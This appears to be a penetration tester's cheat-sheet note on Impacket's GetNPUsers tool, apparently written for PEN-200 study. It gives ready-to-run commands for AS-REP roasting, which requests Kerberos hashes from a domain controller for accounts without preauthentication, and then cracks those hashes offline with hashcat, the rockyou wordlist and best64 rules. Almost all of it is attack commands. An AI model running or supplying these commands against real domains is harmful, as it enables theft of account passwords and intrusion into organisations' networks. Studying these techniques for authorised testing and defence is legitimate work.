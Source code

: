 ```yaml
---
tags:
---
```

# GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' enabled and export their TGTs for cracking ([AS-REP roasting](https://www.youtube.com/watch?v=EVdwnBFtUtQ))

## Capabilities

```bash
# Pull 
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
```

Crack the hash in hashcat

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

.\hashcat.exe -m 18200 hashes\pen-200\hashes.asreproast wordlists\rockyou.txt -r rules\best64.rule --force
```
